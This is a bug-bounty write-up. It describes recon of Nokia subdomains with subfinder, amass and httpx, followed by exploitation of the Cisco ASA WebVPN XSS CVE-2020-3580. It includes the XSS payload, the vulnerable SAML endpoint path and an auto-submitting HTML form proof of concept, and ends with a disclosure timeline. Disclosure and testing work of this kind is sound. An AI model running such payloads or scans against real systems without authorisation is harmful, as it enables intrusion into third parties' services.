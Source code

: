 ```yaml
---
title:  "Exploiting Cisco ASA CVE-2020-3580: How I Discovered the Vulnerability on Nokia Subdomains"
layout: post
---
```


Cisco Adaptive Security Appliance (ASA) is a tool used for corporate VPN access, firewall protection, and threat management. However, it is not without its vulnerabilities. One such vulnerability, **<span style="color: #2980B9;">CVE-2020-3580</span>**, was discovered in 2020 and affects the WebVPN portal, allowing attackers to execute cross-site scripting (XSS) attacks that could compromise connected systems.

In this post, I’ll explain how I uncovered this vulnerability on various Nokia subdomains using reconnaissance techniques.

<h1 style="color: #2E86C1;">🕵️‍♂️ Reconnaissance:</h1>

The first step in bug bounty hunting or vulnerability research is always reconnaissance. My goal was to map out the Nokia attack surface to find potentially vulnerable assets, and for that, I leveraged several tools and methods.

<h3 style="color: #27AE60;">Passive Reconnaissance:</h3>

I started with passive recon to gather subdomains and IPs associated with Nokia. For this, I used the following tools and techniques:

<h3 style="color: #27AE60;">Subdomain Enumeration:</h3>

I used tools like **<span style="color: #2980B9;">Sublist3r</span>**, **<span style="color: #2980B9;">Amass</span>**, and **<span style="color: #2980B9;">Subfinder</span>** to gather a large list of Nokia subdomains:

```bash
subfinder -d nokia.com -o nokia-subdomains.txt amass enum -d nokia.com -o nokia-amass.txt
```

This provided a list of subdomains that are publicly known and might host various services, including VPN portals. After gathering subdomains, I looked for endpoints that were hosting web interfaces. Using tools like httpx, I quickly fingerprinted these subdomains to check for VPN interfaces, login pages, or any Cisco ASA systems.

```bash
cat nokia-subdomains.txt nokia-amass.txt | sort -u | tee subdomains.txt
cat subdomains.txt | httpx -status-code -title -tech-detect -o output.txt
```
Many subdomains returned HTTP 200 with Cisco VPN or WebVPN portals exposed.

<h2 style="color: #2E86C1;">Testing for CVE-2020-3580:</h2>
To test for the vulnerability, we need to send a POST request to ``/+CSCOE+/saml/sp/acs?tgname=a`` with the SAMLResponse parameter set to a payload that triggers the XSS vulnerability. 
The payload is: ``"><svg/onload=alert('xss')>``

##Steps to Reproduce:

````javasscript
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://████/+CSCOE+/saml/sp/acs?tgname=a" method="POST">
      <input type="hidden" name="SAMLResponse" value="&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&apos;XSS&apos;&#41;&gt;" />
      <input type="hidden" name="" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
````
<h2 style="color: #27AE60;">⚠️ CVE-2020-3580 on Nokia Subdomains:</h2>
I wrote a Bash script to check each of the subdomains for this vulnerability. Many of the subdomains were found to be vulnerable, and I reported them to Nokia through their responsible disclosure policy.

📅 <span style="color: #16A085;">Disclosure Timelines:</span>
- 17 Aug 2022 — Vulnerability discovered and reported.
- 18 Aug 2022 — Team confirmed receipt of the report.
- 20 Aug 2022 — I earned a spot on their Hall of Fame page.

